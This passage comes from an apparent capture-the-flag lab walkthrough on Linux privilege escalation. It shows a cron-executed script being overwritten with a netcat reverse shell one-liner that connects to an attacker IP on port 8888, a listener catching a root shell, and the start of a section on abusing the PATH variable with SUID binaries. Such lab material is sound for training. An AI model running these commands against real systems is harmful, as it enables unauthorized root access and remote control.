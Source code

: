 #### What directory is the "autoscript.sh" under?
```bash
user4@polobox:/home/user3$ find / -type f -name "autoscript.sh" 2>/dev/null
/home/user4/Desktop/autoscript.sh
```

#### Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"
```bash
user4@polobox:~/Desktop$ echo "mkfifo /tmp/uvyy; nc 10.11.25.205 8888 0</tmp/uvyy | /bin/sh >/tmp/uvyy 2>&1; rm /tmp/uvyy" > autoscript.sh
```

#### After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvp 8888" and wait for our shell to land!
```bash
$ nc -lnvp 8888
```

#### After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!
```bash
$ nc -lnvp 8888                                                                                          1 ⨯
listening on [any] 8888 ...
connect to [10.11.25.205] from (UNKNOWN) [10.10.104.96] 59672

whoami
root
```

## Exploiting PATH Variable
- PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs. 
- When the user runs any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.
- It is very simple to view the Path of the relevant user with help of the command "echo $PATH".
- We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

#### Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user5, with the password "password"
```bash
user3@polobox:~$ su user5
Password: 
Welcome to Linux Lite 4.4 user5
 
Monday 11 January 2021, 02:03:42
Memory Usage: 332/1991MB (16.68%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user5@polobox:/home/user3$
```
